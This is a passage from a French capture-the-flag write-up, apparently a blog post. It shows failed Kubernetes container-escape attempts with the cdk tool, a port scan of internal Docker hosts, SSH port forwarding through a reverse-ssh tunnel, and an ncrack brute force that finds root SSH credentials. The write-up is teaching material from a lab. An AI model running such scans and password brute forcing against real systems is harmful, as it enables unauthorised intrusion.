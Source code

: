 ```console
2025/07/19 19:36:33 exploit failed

[Auto Escape - K8s API Server]
2025/07/19 19:36:33 checking if api-server allows system:anonymous request.
err found while searching local K8s apiserver addr.:
err: cannot find kubernetes api host in ENV
        api-server forbids anonymous request.
        response:
load K8s service account token error.:
open /var/run/secrets/kubernetes.io/serviceaccount/token: no such file or directory
2025/07/19 19:36:33 exploit failed
2025/07/19 19:36:33 all exploits are finished, auto exploit failed
```

Pas de sortie possible. Mais `cdk` c'est aussi quelques outils intégrés comme un scanner de ports.

Comme nous sonne sur `172.17.0.3` il y a certainement deux adresses IP avant nous :

```console
bash-4.4# ./cdk_linux_amd64 probe 172.17.0.1-2 1-65535 50 1000
2025/07/19 19:42:29 scanning 172.17.0.1-2 with user-defined ports, max parallels:50, timeout:1s
open : 172.17.0.1:80
open : 172.17.0.1:22
open : 172.17.0.1:8080
open : 172.17.0.2:22
open : 172.17.0.2:80
2025/07/19 19:42:36 scanning use time:6558ms
2025/07/19 19:42:36 ending; @args is ips: 172.17.0.1-2, max parallels:50, timeout:1s
```

`172.17.0.1` étant l'hôte, le CTF attend certainement que l'on commence par `172.17.0.2`.

### Tea for two

J'ai forwardé le port 80 depuis mon tunnel `reverse-ssh` :

```bash
ssh -p 8888 -N -L 8000:172.17.0.2:80 127.0.0.1
```

On tombe alors sur une page intitulée `Introduction to Brute Force Attacks` avec un commentaire indiquant `500-worst-passwords`.

Difficile de savoir si j'ai exactement la même wordlist mais ça marche :

```console
$ ncrack -u root -P wordlists/top500.txt ssh://127.0.0.1:2222

Starting Ncrack 0.8 ( http://ncrack.org ) at 2025-07-19 21:49 CEST
Rate: 0.16; Found: 1; About 73.75% done; ETC: 21:55 (0:01:35 remaining)
(press 'p' to list discovered credentials)
Discovered credentials for ssh on 127.0.0.1 2222/tcp:
127.0.0.1 2222/tcp ssh: 'root' 'mountain'
```

Comme on est directement `root` sur le container, on doit certainement trouver un secret quelconque.
